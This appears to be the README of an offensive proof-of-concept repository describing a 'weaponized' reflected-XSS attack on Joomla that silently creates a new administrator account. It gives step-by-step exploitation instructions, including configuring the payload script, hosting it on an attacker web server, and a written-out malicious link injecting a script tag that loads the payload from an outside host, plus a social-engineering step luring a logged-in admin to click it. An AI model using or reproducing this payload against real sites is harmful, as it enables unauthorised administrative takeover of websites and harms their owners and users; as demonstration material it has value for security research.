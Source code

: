 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccJoomla.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 12 characters)

    `newAccEmail` - email of the user account to be created

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.15/createAdminAccJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] attacker logs into target Joomla site using specified credentials

    http://192.168.5.19/administrator/

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/CreateNewAdmin/screenshots/Joomla_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/CreateNewAdmin/screenshots/Joomla_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/5276712b-9124-479b-9e7c-be783178d47a
